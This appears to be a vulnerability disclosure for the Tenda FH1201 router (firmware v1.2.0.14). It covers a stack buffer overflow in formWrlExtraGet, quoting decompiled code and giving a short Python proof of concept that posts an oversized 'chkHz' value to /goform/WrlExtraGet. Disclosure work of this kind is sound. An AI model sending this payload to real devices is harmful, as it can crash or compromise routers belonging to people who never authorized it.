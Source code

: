 ## WrlExtraGet

Tenda FH1201 v1.2.0.14: https://www.tendacn.com/download/detail-3322.html

### description

Tenda FH1201 has a stack buffer overflow vulnerability in `formWrlExtraGet`.

```cpp
int __fastcall formWrlExtraGet(int a1)
{
  // ...
  chkHz = (char *)websGetVar(a1, "chkHz", "0");    // get from parameter
  Var = (char *)websGetVar(a1, "extra_mode", 0);
  if ( !strcmp(chkHz, "0") )
  {
    get_wl_cfg_info(24, 0, 0, v62, 0);
  }
  else if ( !strcmp(chkHz, "1") )
  {
    get_wl_cfg_info(5, 0, 0, v62, 0);
  }
  sprintf(v63, "%s%s", v62, "wisp.");
  sprintf(v64, "%s%s", v62, "client.");
  if ( !Var )
  {
    v1 = sub_4716B0(v62, "wds.bdg.limit", v66);
    GetValue(v1, v33);
    v2 = sub_4716B0(v62, "workmode", v66);
    GetValue(v2, v59);
    if ( !strcmp(v59, "sta") )
    {
      Var = "wisp";
    }
    else if ( !strcmp(v59, "wet") )
    {
      Var = "apclient";
    }
    else if ( !strcmp((const char *)v33, "1") )
    {
      Var = "wds";
    }
    else
    {
      Var = "ap";
    }
  }
  strcat(v60, chkHz);   // BUG: not check size lead to bufffer overflow
  strcat(v60, "\r");
  // ...
}
```




### PoC

```python
import requests

ip = "192.168.85.143"
url = "http://" + ip + "/goform/WrlExtraGet"

data = {
    "chkHz": "a" * 0x4000
}

response = requests.post(url, data=data)
print(response.text)
```

![alt text](./imgs/WrlExtraGet-res.png)